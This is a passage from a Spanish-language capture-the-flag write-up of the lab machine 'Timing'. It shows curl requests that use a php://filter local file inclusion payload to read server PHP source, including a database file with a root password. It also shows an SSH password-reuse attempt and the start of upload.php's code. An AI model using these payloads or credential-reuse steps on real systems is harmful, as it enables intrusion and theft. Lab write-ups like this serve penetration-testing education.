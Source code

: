 ```console


}
?>
...[snip]...
```

En este fragmento de código vemos que se importa otro archivo php de nombre **`db_conn`**, que posiblemente contenga la contraseña de acceso a la base de datos.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=db_conn.php" | base64 -d
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

Con esta información podemos probar si existe reutilización de contraseñas con alguno de los usuarios que encontramos en el **`/etc/passwd`**

```console
p3ntest1ng:~$ ssh aaron@timing.htb
The authenticity of host 'timing.htb (10.10.11.135)' can't be established.
ECDSA key fingerprint is SHA256:w5P4pFdNqpvCcxxisM5OCJz7a6chyDUrd1JQ14k5smY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'timing.htb,10.10.11.135' (ECDSA) to the list of known hosts.
aaron@timing.htb's password: 4_V3Ry_l0000n9_p422w0rd
Permission denied, please try again.
```

Tampoco tenemos suerte con esto, podemos leer el archivo upload.php para ver cómo está construido.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php" | base64 -d
```

```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
```